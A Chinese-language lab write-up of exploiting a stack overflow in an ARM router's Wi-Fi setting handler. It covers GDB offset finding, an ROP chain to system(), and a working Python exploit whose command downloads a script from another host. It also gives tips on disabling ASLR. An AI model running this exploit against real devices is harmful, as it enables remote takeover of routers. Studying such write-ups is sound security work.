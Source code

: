 # GDB动态调试:
先cyclic生成了300个数据，在溢出点下个断点，直接c会在发生错误的地方停下来，我们发现会一直卡在ldrb r2 r1 #1 这里，是要r1 指定的地址加载一个字节到 r2，然后将 r1 的值加 1，指向下一个字节，但是我们这里的r1所指向的地址已经被我们写的垃圾数据给填充了，所以会找不到这个地址发生段错误，于是我们也可以知道，到这里的时候前面要先填充多少个垃圾数据，然后再让其通过去找到一个可以读到的地址，才能往后走。故我们cyclic -l *0x61616179* (r1寄存器) 得到96

![](image/c310ebd416339650fb510b0fade06719.png)

![](image/f64c377711d7e0fb7e4a5e36ec58f7df.png)

本来是想着在哪发生了段错误，就直接在哪覆盖就可以了，但经过实际调试发现偏差少了四位，故又单步去调试了一下

![](image/6146d8855734ea709f931ca983c53f93.png)

因为要确保 fp 指向有效的内存地址是程序正常运行的关键，指向无效地址会导致段错误，所以pop到fp的时候就已经发生段错误了，故我们计算偏移的时候是要其覆盖到pc，故应该到gaab来结束计算
所计算得到的偏移量为96 + 4 + 24，故要绕过第二次段错误我们应该再构造24个脏数据

![](image/a6b8307782b63c8086df337b16494935.png)

去验证让它跳转到我们想让它跳转的位置，POP {R3,PC}，发现成功跳转，说明我们偏移已经算对了

![](image/b995769c5a962233417448580927d510.png)


我们构造的ROP链是:pop {r3,pc}->system->mov r0,sp;blx r3->cmd
pop{r3,pc}指令通常用于函数返回或跳转到某个地址，同时保存返回地址到寄存器 r3。
也就是说
r3->system   r3 将被设置为 0x76e05270（即 system 的地址）
pc->mov r0,sp      pc 将指向 0x76debcb8（即 authnone_create + 192 的地址）
跳转到 0x76debcb8 执行，从栈中弹出地址并跳转

![](image/0a3ae270705883941a7539c49145b3b5.png)

mov r0,sp
准备了 system 函数的参数，执行后会调用 system，并使用当前栈指针sp的值r0作为参数。
blx r3 又跳转到刚刚赋给r3的system的地址

![](image/f2115d95ede17ab6d11a4cb232239f4e.png)

命令执行成功了

![](image/79c007faf5be64de38fba7934bd6c69d.png)


# exp:
```
#!/usr/bin/python3

import requests
from pwn import *


target_ip = "10.10.10.3"
target_port = 80  

cmd = b'wget http://10.10.10.2:8000/exp.py'
libc_base = 0x76DAB000
readable_addr = 0x641E8
system_addr = 0x5A270
pop_r3_addr = 0x18298
mov_ro_ret_r3_addr = 0x40CB8

#96 4 24
payload = b'a'*96+p32(readable_addr+libc_base)+b'a'*24+p32(pop_r3_addr+libc_base)+p32(system_addr+libc_base)+p32(mov_ro_ret_r3_addr+libc_base)+cmd

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=zjarmx"}

data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
```
# tip:
## 关闭地址随机化:
这两条命令与 Linux 系统中的地址空间布局随机化（ASLR）设置有关。

![](image/fb91930c8d9d93381b4c0a6e97d0f6b1.png)

```sh
cat /proc/sys/kernel/randomize_va_space
作用：查看当前的 ASLR 配置。
返回值：
0：关闭 ASLR。
1：启用 ASLR（默认设置）。
2：启用堆和栈的随机化，但共享库和映射的文件保持固定。
 sudo sysctl kernel.randomize_va_space=0
作用：将 ASLR 设置为关闭（0）。
效果：程序在运行时的内存地址将不再随机化，有助于调试或逆向工程，但会降低安全性。
```
## canda python环境
```sh
#开启canda
conda activate pwntools
#关闭canda
conda deactivate
```

## 基地址:
对于动态链接库（如 libc.so.0），加载的可执行部分通常以 r-xp 权限标识。

![](image/3a32c52de7ecbaa832e351c3cad0ffb1.png)


## shell passwd:
Fireitup